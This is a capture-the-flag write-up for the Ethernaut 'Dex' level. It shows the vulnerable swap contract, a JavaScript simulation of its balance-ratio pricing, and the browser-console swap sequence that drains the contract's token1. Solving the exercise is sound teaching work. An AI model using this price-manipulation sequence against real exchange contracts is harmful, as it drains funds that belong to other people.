 # 22 - Dex

Ethernaut Level22: [Dex](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract Dex is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }
  
  function addLiquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }

  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(msg.sender, spender, amount);
    SwappableToken(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

## Solution

Let's see the result of swap with js script.

```javascript
const player = {
  token1: 10,
  token2: 10,
};

const dexContract = {
  token1: 100,
  token2: 100,
};

function getSwapPrice(from, to, amount) {
  return Math.floor((amount * dexContract[to]) / dexContract[from]);
}

function swap(from, to, amount) {
  const swapAmount = getSwapPrice(from, to, amount);
  player[from] -= amount;
  dexContract[from] += amount;

  dexContract[to] -= swapAmount;
  player[to] += swapAmount;

  console.log("====================after swap====================");
  console.log("\t player  dexContract");
  console.log("token1: ", player.token1, "\t", dexContract.token1);
  console.log("token2: ", player.token2, "\t", dexContract.token2);
  console.log("");
}
```

```javascript
function main() {
  swap("token1", "token2", player.token1);
  swap("token2", "token1", player.token2);
  swap("token1", "token2", player.token1);
  swap("token2", "token1", player.token2);
  swap("token1", "token2", player.token1);
  swap("token2", "token1", player.token2);
}

main();
```

```
====================after swap====================
         player  dexContract
token1:  0       110
token2:  20      90

====================after swap====================
         player  dexContract
token1:  24      86
token2:  0       110

====================after swap====================
         player  dexContract
token1:  0       110
token2:  30      80

====================after swap====================
         player  dexContract
token1:  41      69
token2:  0       110

====================after swap====================
         player  dexContract
token1:  0       110
token2:  65      45

====================after swap====================
         player  dexContract
token1:  158     -48  // <- here
token2:  0       110
```

If we keep swapping all the token amount we have like this, \
the contract's balance becomes less than `0`.

Before the last swap above, player has `0 token1` and `65 token2`.

And Dex contract has `110 token1` and `45 token2`.

The price of swap will be `Math.floor(amount * 110/45)`.

So if we swap `45 token2`, the player gets `110 token1` which finally makes the `token1` balance of the contract `0`.

```javascript
function main() {
  swap("token1", "token2", player.token1);
  swap("token2", "token1", player.token2);
  swap("token1", "token2", player.token1);
  swap("token2", "token1", player.token2);
  swap("token1", "token2", player.token1);
  swap("token2", "token1", 45);
}

main();
```

```
====================after swap====================
         player  dexContract
token1:  0       110
token2:  20      90

====================after swap====================
         player  dexContract
token1:  24      86
token2:  0       110

====================after swap====================
         player  dexContract
token1:  0       110
token2:  30      80

====================after swap====================
         player  dexContract
token1:  41      69
token2:  0       110

====================after swap====================
         player  dexContract
token1:  0       110
token2:  65      45

====================after swap====================
         player  dexContract
token1:  110     0  // <- here!
token2:  20      90
```

<pre class="language-javascript"><code class="lang-javascript">> const token1 = await contract.token1();
  const token2 = await contract.token2();
  await contract.approve(contract.address, 100000000);
  
> await contract.swap(token1, token2, (await contract.balanceOf(token1, player)).toString());

<strong>> await contract.swap(token2, token1, (await contract.balanceOf(token2, player)).toString());
</strong>
> await contract.swap(token1, token2, (await contract.balanceOf(token1, player)).toString());  

> await contract.swap(token2, token1, (await contract.balanceOf(token2, player)).toString());

> await contract.swap(token1, token2, (await contract.balanceOf(token1, player)).toString());

> await contract.swap(token2, token1, 45);

</code></pre>

Done! 😎
